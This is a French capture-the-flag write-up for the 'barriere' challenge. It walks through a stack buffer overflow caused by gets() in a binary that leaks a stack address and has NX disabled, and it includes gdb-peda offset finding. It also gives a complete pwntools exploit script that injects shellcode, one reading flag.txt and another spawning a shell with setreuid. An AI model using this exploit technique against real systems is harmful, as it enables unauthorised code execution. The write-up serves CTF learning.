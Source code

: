 # AnswerMe

![barriere](barriere.png)

## Write-Up

### Première exécution

Les interactions avec le challenge sont assez simples :
- Le serveur nous donne ce qui semble être un accès SSH
- On y trouve un programme nommé `barriere`
- Le programme nous renvoit une chaîne de caractères
- Le programme lit un input
- Le programme quitte

```bash
$ ssh opennc@challs.hackagou.nc 5001
$ ./barriere
Show me your style!
Je bloque à 0x7ffedf64b8b0
AAAAAA
```

### Analyse statique

Le challenge nous permet de télécharger le binaire à exploiter sur le serveur.

En regardant rapidement le code, on trouve la fonction main qui correspond au code suivant :

```c
int main(void)

{
  char user_input [64];

  setvbuf(stdout,(char *)0x0,2,0);
  puts(&DAT_004006f8);
  printf("Je bloque à %p\n",user_input);
  gets(user_input);
  return 0;
}
```

On remarque que l'adresse leakée est celle de notre input (sur la stack).
Par ailleurs, il n'y a pas de contrôle sur la taille de l'input qui va être stocké dans un buffer de 64 octets

Niveau protection, rien de particulier, la stack permet l'exécution de code et aucun canary n'y est placé :

```bash
$ checksec fragile
[*] '/home/opennc/barriere'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Il reste à supposer que l'ASLR est activée sur le serveur, ce qui est confirmé en relançant deux fois le challenge, l'adresse du leak change.


### Exploit

Avec tout ça, on conclut rapidement que c'est un buffer overflow et donc suivre les instructions habituelles de ce type de vulnérabilité :
- Remplir le buffer
- Ecraser la sauvegarde de RIP sur la stack (avec une adresse pointant sur notre shellcode)
- Poser un shellcode sur la stack

Nous trouvons facilement l'offset du RIP via peda (création d'une chaîne de 256 caractères et utilisation lors de l'input du programme)

```
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'
gdb-peda$ run
Starting program: /home/opennc/barriere 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Show me your style!
Je bloque à 0x7ffea3db4e40
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.


[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7f0fbd8ddaa0 --> 0xfbad2288 
RDX: 0x1 
RSI: 0x1 
RDI: 0x7f0fbd8dfa80 --> 0x0 
RBP: 0x4141334141644141 ('AAdAA3AA')
RSP: 0x7ffea3db4e88 ("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
RIP: 0x4005ba (<main+67>:	ret)
R8 : 0x0 
R9 : 0x0 
R10: 0x77 ('w')
R11: 0x246 
R12: 0x7ffea3db4f98 --> 0x7ffea3db5829 ("/home/opennc/barriere")
R13: 0x400577 (<main>:	push   rbp)
R14: 0x0 
R15: 0x7f0fbd92c040 --> 0x7f0fbd92d2e0 --> 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero[ sign trap INTERRUPT direction overflow)
[..]]
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004005ba in main ()
```

On cherche quelle instruction a pu pousser le programme à l'erreur de segmentation.

<pre><code>gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffdc48:
 rip = 0x4005ba in main; <b><ins>saved rip = 0x4134414165414149</ins></b>
 called by frame at 0x7fffffffdc58
 Arglist at 0x4141334141644141, args: 
 Locals at 0x4141334141644141, Previous frame's sp is 0x7fffffffdc50
 Saved registers:
  rip at 0x7fffffffdc48</code></pre>

RIP pointait sur 0x4134414165414149 qui correspond à IAAeAA4A en little-endian. Utilisation de *pattern_offset* afin de trouver l'offset de cette chaîne qui nous servira à écraser RIP.

```
gdb-peda$ pattern_offset IAAeAA4A
IAAeAA4A found at offset: 72
```

Nous devons donc réécrire l'adresse fournie par le programme jusqu'au 72ème octet, écrire l'adresse de notre shellcode (adresse reçue du programme + 72 + 8) et placer notre shellcode.

Ce qui donne, en utilisant pwntools et un simple shellcode 'cat flag.txt' :

```python
from pwn import *

context.clear(arch='amd64')
s = ssh(host='challs.hackagou.nc', port=5001, user='opennc', password='opennc')

p = s.process('./barriere')

resp = p.recvuntil(b'0\n')
buff_add = resp.split(b'\n')[1].split(b' ')[3]
log.success("Leak : " + buff_add.decode())

shell_addr = int(buff_add.decode(), 16) + 72 + 8
log.success("shell_addr : " + hex(shell_addr))

payload = b"\x90" * 72
payload += p64(shell_addr)
payload += asm(shellcraft.cat('flag.txt'))

p.sendline(payload)
print(p.recvline().decode())
```

```bash
$ python3 pwn-barriere.py
[+] Connecting to challs.hackagou.nc on port 5001: Done
[*] opennc@challs.hackagou.nc:
    Distro    Ubuntu 22.04
    OS:       linux
    Arch:     amd64
    Version:  5.15.0
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./barriere') on 127.0.0.1: pid 81
[+] Leak : 0x7ffd90f9c7e0
[+] shell_addr : 0x7ffd90f9c840
OPENNC{BufF3R_0v3r_t3h_F10w}
```

Pour ceux qui souhaitaient utiliser un bash ou un sh, il est nécessaire de faire un setreuid() avant l'appel du shell afin de récupérer les droits du SUID.

```
# Autre possibilité via un shell
payload += asm(shellcraft.setreuid() + shellcraft.sh())
p.sendline(payload)
p.interactive()
```
